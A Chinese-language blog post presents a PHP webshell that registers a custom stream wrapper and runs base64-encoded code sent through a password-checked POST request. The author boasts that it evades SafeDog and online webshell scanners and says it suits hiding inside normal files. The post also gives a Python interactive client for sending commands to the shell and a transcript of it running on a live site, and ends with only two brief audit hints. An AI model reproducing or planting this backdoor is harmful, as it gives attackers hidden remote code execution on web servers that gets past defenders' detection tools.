 ```yaml
---
title: '非正常 PHP Shell - 产生Shell的一种新方法'  
date: 2018-07-03 10:02:44
tags: 
    - PHP
    - '网络安全'
categories:
    - '技术分享'
---
```


安全狗绕过是一个比较热门的话题？反正我这边这个`Shell` 经过 安全狗、https://scanner.baidu.com 、http://n.shellpub.com 的检测，没检测出来，美滋滋。

## 检测结果
- http://n.shellpub.com/zip/tid/6b86f122-0392-404b-a660-41ef11b38e15.html
- https://scanner.baidu.com/#/pages/scan_result?hash=fe0c44bd777ef0f9bae897ed79f3d4b9

<!-- more -->

## 产生原理

通过PHP函数 `stream_wrapper_register` 注册包装器，检测特定的URL包装功能，监控 `include` 流，在 `include` 流中动态生成PHP代码，本来是用来做PHP源代码加密的，但是想了下，好像这种方式还没有被安全狗检测，翻阅了大部分安全狗的检测机制，讲道理没有看到有关的文献。具体原理参考我的上一篇文章，不打算菜刀适配（其实是菜刀的运行原理我看起来头晕）。

## Shell代码 

代码稍微有些长，适合隐藏在正常的文件中使用


```php
<?php

/**
 * 异形 Shell，一串看似完全正常代码
 * @author dxkite <dxkite@qq.com>
 * @link //dxkite.cn
 */

class ShellStream
{
    protected $position;
    protected $code;

    public function stream_open($path, $mode, $options, &$opened_path)
    {
        $url = parse_url($path);
        $name = $url["host"];
        $this->code = base64_decode($name);
        $this->position = 0;
        return true;
    }

    public function stream_read($count)
    {
        $ret = substr($this->code, $this->position, $count);
        $this->position += strlen($ret);
        return $ret;
    }

    public function stream_tell()
    {
        return $this->position;
    }

    public function stream_eof()
    {
        return $this->position >= strlen($this->code);
    }

    public function stream_seek($offset, $whence)
    {
        switch ($whence) {
            case SEEK_SET:
                if ($offset < strlen($this->code) && $offset >= 0) {
                    $this->position = $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            case SEEK_CUR:
                if ($offset >= 0) {
                    $this->position += $offset;
                    return true;
                } else {
                    return false;
                }
                break;
            case SEEK_END:
                if (strlen($this->code) + $offset >= 0) {
                    $this->position = strlen($this->code) + $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            default:
                return false;
        }
    }
    public function stream_stat()
    {
        return [];
    }

    public static function shell(){
        if (isset($_POST['password']) && $_POST['code']) {
            stream_wrapper_register('shell', ShellStream::class);
            if ($_POST['password']=='dxkite') {
                $code = $_POST['code'];
                include 'shell://'.$code;
            } else {
                include 'shell://PD9waHAgZWNobyAiaGVsbG8gaGFjayI7';
            }
        }
    }
}

ShellStream::shell();
```

## 利用脚本

不打算做菜刀适配，本文仅供安全研究

```python
import requests 
import base64
import sys


def send_raw(url,password,cmd):
    res=requests.post(url,{
        'password':password,
        'code': base64.b64encode(cmd.encode('utf-8')) 
    })
    return res.text

def send_php_shell(url,password,cmd):
    return send_raw(url,password,'<?php '+cmd)

if __name__ == '__main__':
    if len(sys.argv) <= 1:
        print('Usage:\r\n\tpython shell.py url password')
        sys.exit(0)
    url = sys.argv[1]
    password =sys.argv[2]
    while True:
        cmd = input('php-shell>')
        if cmd == 'exit':
            break
        elif cmd.startswith('run'):
            cmd,path = cmd.split(' ',1)
            code = ''
            with open(path) as f:
                for line in f:
                    code = code + line + "\r\n" 
            response = send_raw(url,password,code);
            print(response)
        else:
            response = send_php_shell(url,password,cmd);
            print(response)
```

## 使用实例

```
PS D:\Server\Local\suda\public\assets\eval> python .\shell.py 'http://suda.atd3.org/assets/eval/shell.php' dxkite
php-shell>echo 'hello,dxkite';
hello,dxkite
php-shell>echo __FILE__;
D:\Server\Local\suda\public\assets\eval\6070fc111c81737d263f97471b4f31ee.shell
php-shell>exit
PS D:\Server\Local\suda\public\assets\eval>
```

## 代码审计避免此类Shell

- 接受了外部输入
- 注册了孤岛式的流包装器
